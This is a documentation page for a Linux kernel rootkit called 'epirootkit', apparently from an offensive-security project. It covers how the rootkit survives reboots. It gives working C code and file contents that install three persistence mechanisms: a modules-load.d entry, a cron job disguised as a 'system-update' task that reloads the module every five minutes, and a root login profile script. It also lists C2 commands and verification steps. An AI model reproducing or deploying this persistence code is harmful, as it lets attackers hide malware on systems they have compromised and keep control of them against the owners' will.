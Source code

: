 ```yaml
---
title: "Persistence"
description: "Multiple boot persistence mechanisms for rootkit survival"
icon: "refresh"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 513
---
```


# Persistence

Multiple boot persistence mechanisms to ensure rootkit survival across system reboots.

## Three Mechanisms

### 1. modules-load.d
**File**: `/etc/modules-load.d/epirootkit.conf`  
**Content**: `epirootkit`  
**Trigger**: systemd reads config and loads module automatically on boot

### 2. Cron Jobs  
**File**: `/etc/cron.d/system-update`  
**Schedule**: Every 5 minutes check and load if not present  
**Stealth**: Disguised as system update task

### 3. Shell Profiles
**File**: `/etc/profile.d/system-env.sh`  
**Trigger**: Executes when root user logs in  
**Check**: Loads module if not already present

## Implementation

### Automatic Installation
```c
int persistence_init(void)
{
    return persistence_install(); // Install all mechanisms
}
```

### Individual Mechanisms
```c
// modules-load.d persistence
int persistence_install_modules_load(void)
{
    return write_file("/etc/modules-load.d/epirootkit.conf", "epirootkit\n");
}

// Cron persistence (every 5 minutes)
int persistence_install_cron(void) 
{
    const char *cron_content = 
        "*/5 * * * * root /bin/bash -c 'if ! lsmod | grep -q epirootkit; then "
        "modprobe epirootkit 2>/dev/null || "
        "insmod /lib/modules/$(uname -r)/extra/epirootkit.ko 2>/dev/null; fi'\n";
    
    return write_file("/etc/cron.d/system-update", cron_content, 0644);
}

// Shell profile persistence
int persistence_install_shell_profile(void)
{
    const char *profile_content = 
        "#!/bin/bash\n"
        "if [ \"$(id -u)\" -eq 0 ]; then\n"
        "    if ! lsmod | grep -q epirootkit 2>/dev/null; then\n"
        "        modprobe epirootkit 2>/dev/null\n"
        "    fi\n"
        "fi\n";
    
    return write_file("/etc/profile.d/system-env.sh", profile_content, 0755);
}
```

## Usage

### WebUI Control
Access via Persistence panel:
- **Install All**: Enable all three mechanisms
- **Remove All**: Disable all mechanisms  
- **Individual Control**: Toggle each mechanism separately

### C2 Commands
```bash
# Install all persistence mechanisms
persist_install Client-1

# Remove all mechanisms
persist_remove Client-1

# Individual control
persist_modules Client-1    # modules-load.d only
persist_cron Client-1       # cron only
persist_profile Client-1    # shell profile only
```

## Verification

### Check Installation
```bash
# modules-load.d
cat /etc/modules-load.d/epirootkit.conf
# epirootkit

# Cron job
cat /etc/cron.d/system-update
# */5 * * * * root /bin/bash -c 'if ! lsmod | grep -q epirootkit; then modprobe epirootkit 2>/dev/null || insmod /lib/modules/$(uname -r)/extra/epirootkit.ko 2>/dev/null; fi'

# Shell profile
cat /etc/profile.d/system-env.sh
# #!/bin/bash
# if [ "$(id -u)" -eq 0 ]; then
#     if ! lsmod | grep -q epirootkit 2>/dev/null; then
#         modprobe epirootkit 2>/dev/null
#     fi
# fi
```

### Test Persistence
```bash
# Remove module and reboot
rmmod epirootkit
reboot

# Check if module reloaded
lsmod | grep epirootkit
# epirootkit               20480  0
```

All mechanisms are **enabled by default** and can be managed via WebUI or C2 commands.